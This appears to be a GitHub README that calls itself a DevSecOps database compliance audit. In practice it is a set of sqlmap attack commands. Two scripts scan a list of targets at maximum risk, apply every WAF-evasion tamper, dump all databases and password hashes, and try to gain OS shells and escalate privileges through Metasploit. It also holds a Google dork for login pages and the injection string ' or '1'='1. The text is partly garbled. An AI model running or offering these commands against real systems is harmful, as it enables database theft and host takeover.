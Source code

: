 This project verify that your DataBases are under compliant with the actual DevSecOps MSB

Let’s audit Our Application with https://sqlmap.org {1.5.1.17#dev} 



[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


## 1. Install python 2.7

https://gist.github.com/4k4xs4pH1r3/2196035667b41107d903ebc5a771d956

#
## 2. Install sqlmap

       apt install sqlmap -y && cp -r /usr/share/sqlmap /usr/share/sqlmap_bck && rm -r /usr/share/sqlmap && git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git /usr/share/sqlmap && sqlmap --update && sqlmap --version
       
#       
## Generate IP addresses file of your applications (targets)

    cd /root && mkdir SA && cd SA && mkdir ad && nano ~/SA/ad/ad_ips

## Create the Pipeline CI/CD with metasploit

    nano /root/SA/ad/SA_sqli.sh
#      
    sudo apt install neofetch screenfetch -y
    neofetch
    screenfetch
    sqlmap -f -b -o -m /root/SA/ad/ad_ips -t /root/.sqlmap/output/sqlmap_scan -s -a --prefix="--%20', '%20%20', '-- ', ' '" --suffix="-- " --batch --crawl=13 --crawl-exclude="logout" --forms --randomize=yes --answers="keep testing=Y,optimize=Y,sitemap=Y,follow=Y,extending=N,skip further tests=N,exploit=Y" --cookie=jsessionid=12345 --dump-all --exclude-sysdbs --random-agent --threads=10 --risk=3 --level=5 --delay=1 --timeout=15 --retries=2  --dbs --dbms=mssql --os=Linux --count --hostname --current-user --current-db --passwords --binary-fields --tables --columns --schema --is-dba --users --privileges --roles --common-tables --common-columns --comments --shared-lib --parse-errors --drop-set-cookie --time-sec=17 --ignore-proxy --ignore-timeouts --randomize 3 --hpp --null-connection --invalid-bignum --invalid-logical --invalid-string --charset="0123456789abcdef" --encoding=GBK --technique BEUSTQ --hex --tamper=0eunion,apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,binary,bluecoat,chardoubleencode,charencode,charunicodeencode,charunicodeescape,commalesslimit,commalessmid,commentbeforeparentheses,concat2concatws,equaltolike,equaltorlike,escapequotes,greatest,halfversionedmorekeywords,hex2char,hexentities,htmlencode,if2case,ifnull2casewhenisnull,ifnull2ifisnull,informationschemacomment,least,lowercase,luanginx,misunion,modsecurityversioned,modsecurityzeroversioned,multiplespaces,ord2ascii,overlongutf8,overlongutf8more,percentage,plus2concat,plus2fnconcat,randomcase,randomcomments,schemasplit,scientific,sleep2getlock,sp_password,space2comment,space2dash,space2hash,space2morecomment,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,space2randomblank,substring2leftright,symboliclogical,unionalltounion,unmagicquotes,uppercase,varnish,versionedkeywords,versionedmorekeywords,xforwardedfor --os-shell --os-pwn --os-smbrelay --os-bof --priv-esc --reg-read --ignore-timeouts --udf-inject --where=DUMPWHERE --dump-format=SQLITE --msf-path /usr/bin --tmp-dir=/root/.sqlmap/history --beep --alert=x -v 6
#

## Create the Pipeline CI/CD without metasploit

    nano /root/SA/ad/SA_sqli.sh
#      
    sudo apt install neofetch -y
    neofetch
    sudo sqlmap -f -b -o -m ~/SA/ad/ad_ips -t ~/.sqlmap/output/sqlmap_scan -s -a --prefix="--%20', '%20%20', '-- ', ' '" --suffix="-- " --batch --crawl=13 --crawl-exclude="logout" --forms --randomize=yes --answers="keep testing=Y,optimize=Y,sitemap=Y,follow=Y,extending=N,skip further tests=N,exploit=Y" --cookie=jsessionid=12345 --dump-all --exclude-sysdbs --random-agent --threads=10 --risk=3 --level=5 --delay=1 --timeout=15 --retries=2  --dbs --dbms=mssql --os=Linux --count --hostname --current-user --current-db --passwords --binary-fields --tables --columns --schema --is-dba --users --privileges --roles --common-tables --common-columns --comments --shared-lib --parse-errors --drop-set-cookie --time-sec=17 --ignore-proxy --ignore-timeouts --randomize 3 --hpp --null-connection --invalid-bignum --invalid-logical --invalid-string --charset="0123456789abcdef" --encoding=GBK --technique BEUSTQ --hex --tamper=0eunion,apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,binary,bluecoat,chardoubleencode,charencode,charunicodeencode,charunicodeescape,commalesslimit,commalessmid,commentbeforeparentheses,concat2concatws,equaltolike,equaltorlike,escapequotes,greatest,halfversionedmorekeywords,hex2char,hexentities,htmlencode,if2case,ifnull2casewhenisnull,ifnull2ifisnull,informationschemacomment,least,lowercase,luanginx,misunion,modsecurityversioned,modsecurityzeroversioned,multiplespaces,ord2ascii,overlongutf8,overlongutf8more,percentage,plus2concat,plus2fnconcat,randomcase,randomcomments,schemasplit,scientific,sleep2getlock,sp_password,space2comment,space2dash,space2hash,space2morecomment,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,space2randomblank,substring2leftright,symboliclogical,unionalltounion,unmagicquotes,uppercase,varnish,versionedkeywords,versionedmorekeywords,xforwardedfor --os-shell --os-pwn --os-smbrelay --os-bof --priv-esc --reg-read --ignore-timeouts --udf-inject --where=DUMPWHERE --dump-format=SQLITE --tmp-dir=~/.sqlmap/history --beep --dependencies --unstable --alert=x -v 6

    sqlmap -u 'http://imagetok.htb:32531/' --level=5 --risk=3 --privileges --current-user --hostname --random-agent --current-db --dump --columns --schema --roles --comments --passwords --users --tables --is-dba --count -b --dbs --mobile --flush-session --beep --cleanup --fresh-queries --threads=10

       
## Start & Monitoring of the Pipeline CI/CD

       cd ~/SA/ad/ && chmod +x SA_sqli.sh && ./SA_sqli.sh
#       
       tail -f /root/.sqlmap/output/sqlmap_scan
               
## 3. Analize/Purge the Injections Results

of each host that you are looking for (CSV format) 
Include: Target URL; Place; Parameter; Technique(s) and Note(s) at

       cd
       cd /root/.sqlmap/output/

#
#
#
# Additional commands

    -p username --url="http://yourtarget.com//?post=1" --data "username=admin&password=pass"

    -D dbname -T tablename -C id -C username -C password

# Supported DBMSes are as follows:

Firebird, H2, HSQLDB, IBM DB2, Informix, Microsoft Access, Microsoft SQL Server, MySQL, Oracle, PostgreSQL, SAP MaxDB, SQLite, Sybase.
     
    --dbms=MySQL
    
    --no-cast 
    
    --no-escape 

    --charset 'ascii'

    --predict-output

    --skip-waf

    --eta

    --sqlmap-shell
    
    --sql-shell
    
    
    sqlmap.py -u website –dbs

    -D acuart –tables

    -D acuart -T users –columns

    -D acuart -T users -C name,email,phone -dump

    
    #
    #
    #
    $ curl --header 'Host: www.example.com' 'https://127.0.0.1/' -v -k
    
    :)


inurl:website.test/login.asp

' or '1'='1
